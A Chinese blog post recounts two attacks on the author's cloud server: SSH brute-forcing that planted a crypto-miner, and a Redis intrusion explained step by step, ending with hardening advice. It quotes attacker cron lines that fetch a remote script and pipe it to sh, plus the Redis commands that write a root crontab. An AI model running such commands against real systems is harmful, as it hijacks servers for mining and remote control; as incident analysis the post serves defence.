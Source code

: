 ```yaml
---
title: 云服日常被攻击（一&二）
date: 2024-01-23 21:04:10
categories:
- 编程记录
tags:
- 网络安全
- 云服务器
---
```


## 被攻击经历一

第一次被攻击是在2022年11月12日，16点39分。手机突然收到了腾讯云的短信，有恶意文件。
然后干的第一件事就是从小程序把服务器停了（服务器上没啥重要服务，纯用来练手玩的一些东西
后来就是上服务器排查哪出的问题，最后发现是账号密码被爆破了。

由于大创项目的原因，服务器是三个人一起用的，我给那俩人都创建了账号，权限也都给了。
关键的点来了，其中一个账号密码是 **123456** ，属于是绷不住了。
因为恶意文件的创建者都是那个账号，所以确定是这个账户密码泄露了。

恶意文件是用于挖矿的 shell 。开机就给我 cpu 干满了，属于是毫不遮掩了。
后续就是重装了系统，并且使用**强密码**。（后面要说，其实用处不大

还有要说的就是它的攻击方式
爆破用户名和密码，挺低级的。不过肯定是用被攻陷的肉鸡去爆破，同时还挖矿，吃满资源。
我恨挖矿的，真该死啊

## 被攻击经历二

第二次被攻击是在2023年12月18日发现的，但是并没有造成影响。这次我的应用是跑在 docker 容器中的。
那天发现 redis 里有这几个奇怪的 string。这定时任务显然是有巨大问题的，不是我的程序写进去的。
~~~
*/2 * * * * root cd1 -fsSL http://45.83.123.29/cleanfda/init.sh | sh
*/3 * * * * root wget -q -O- http://45.83.123.29/cleanfda/init.sh | sh
*/4 * * * * root curl -fsSL http://en2an.top/cleanfda/init.sh | sh
*/5 * * * * root wd1 -q -O- http://en2an.top/cleanfda/init.sh | sh
~~~

然后去了这些网址看了看都是下载了什么 shell 脚本。一看，好家伙！又是挖矿的。（这群人真该死啊
下面这篇文章讲了关于 redis 的安全问题，也包含了我这次被攻击的攻击细节。
[Databases. EXPOSED! (Redis)](https://censys.com/databases-exposed-redis/)

详细的就去看上面的文章吧。下面简单讲下攻击原理。
最开始也是爆破，不过这次爆破的是暴露在公网上的 redis 服务。（建议换个端口，不使用默认的 6379，不过用处不是很大
至于为什么会选择 redis ，也许 redis 配置文件的注释就给出了答案。
~~~
# Warning: since Redis is pretty fast an outside user can try up to
# 150k passwords per second against a good box. This means that you should
# use a very strong password otherwise it will be very easy to break.

# 警告：由于Redis速度相当快，外部用户每秒可以在一个好盒子上尝试多达150k个密码。这意味着你应该使用一个非常强的密码，否则很容易被破解。
~~~
所以即便我的密码是强密码 **~Dx33ZWi>}d8LFvwuZKo** ，但是丝毫不影响被爆破出来。（只是它花的时间会更久一些。
进入 redis 后，会执行 FLUSHALL 删除 redis 服务器上的所有数据。这样做是为了使以下键/值的内容尽可能靠近数据库文件的开头写入。
然后写入类似上面的键值对 SET backup1 "\n\n\n*/4 * * * * root curl -fsSL http://45.83.123.29/cleanfda/init.sh | sh\n\n\n"
执行 CONFIG SET dir "/var/spool/cron/" 将 redis 的 data 目录设置为系统的 "/var/spool/cron/" 目录，默认目录是 "crond" 进程找到并执行单个用户 crontabs 的目录。
执行 CONFIG SET dbfilename "root" 将 redis 的数据文件名设置为 "root"，这意味着数据库的内容将存储在 "/var/spool/cron/root" 中，即 root 用户的个人 crontab 文件。
最后执行 save 使 redis 服务器将内存同步到磁盘，如果成功，crontab 进程将读取并执行 "/var/spool/cron/root" 的内容。

到这里，服务器就不属于你了。
除了写入定时任务脚本以启动进程，也可以写入 .ssh/authorized_keys 文件来添加密钥。

## 修复建议

如那篇文章所说：
* Enable client authentication in your Redis configuration file.
  在Redis配置文件中启用客户端身份验证。
* Configure Redis to only run on internal-facing network interfaces.
  将Redis配置为只在面向内部的网络接口上运行。
* Disable the "CONFIG" command by running ‘rename-command CONFIG ""’ to avoid configuration abuse.
  通过运行"rename-command CONFIG"禁用"CONFIG"命令，以避免配置滥用。
* Configure your firewall only to accept Redis connections from trusted hosts.
  配置防火墙只接受来自可信主机的Redis连接。

最后，挖矿的真该死啊！